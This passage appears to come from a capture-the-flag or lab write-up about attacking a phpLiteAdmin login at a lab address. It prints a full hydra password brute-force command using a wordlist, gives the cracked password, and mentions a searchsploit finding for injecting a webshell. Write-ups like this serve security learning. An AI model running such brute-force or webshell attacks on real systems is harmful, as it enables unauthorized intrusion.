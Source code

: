 
Using `hydra` we get the password for the phpliteadmin

```shell
$ hydra 10.10.10.43 -l test -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

![](assets/Pasted%20image%2020250611123534.png)

`password123`

![](assets/Pasted%20image%2020250611122840.png)

Using `searchsploit` we find a way to inject a webshell by creating a table.

![](assets/Pasted%20image%2020250611125115.png)
